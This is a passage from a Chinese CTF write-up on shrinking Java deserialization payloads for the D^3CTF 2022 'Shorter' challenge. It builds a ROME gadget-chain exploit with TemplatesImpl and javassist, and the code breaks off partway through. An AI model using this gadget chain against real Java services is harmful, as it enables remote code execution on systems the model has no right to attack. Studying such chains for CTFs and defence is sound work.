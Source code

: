 payload缩短技术-\[D^3CTF2022\] Shorter
==================================

前言
--

这篇文章会结合 D^3CTF 的一道题目来学习 Payload 缩短的方法

题目为 D^3CTF 的 shorter，相信大家也都不陌生，题目给出了源码、dockerfile 等，大家可以自行搭建复现。

将源码反编译后可以看到，主要控制器中存在注入点，很明显是要考反序列化了,

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-cbdffc3569e27a054c87c8feb63459e4b36433af.png)

不过我们需要绕过这里的长度限制

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b3d9c226ad9bf6d1ef3cd8779c29589bbfb8e4ac.png)

在这一堆包里我们很容易看到我们的利用点拉，rome1.0 所有看过 ysoserial 的人都知道这个好使。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-07b23104027972b87061c2f6e07c59fc1c10db2e.png)

但是生成了之后转码一下 Base64，发现大小远远超出了给定的长度，又看了了一下自己写的链子，短了一点点，真的就一点点。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-8722d054c075d2075221584742ebd81e173a4394.png)

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;

public class ROMEtest {
    public ROMEtest() throws NotFoundException {
    }

    public static class StubTransletPayload extends AbstractTranslet {
        public void transform (DOM document, SerializationHandler[] handlers ) throws TransletException {}
        public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler ) throws TransletException {}
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath((new ClassClassPath(StubTransletPayload.class)));
        CtClass clazz = pool.get((StubTransletPayload.class.getName()));
```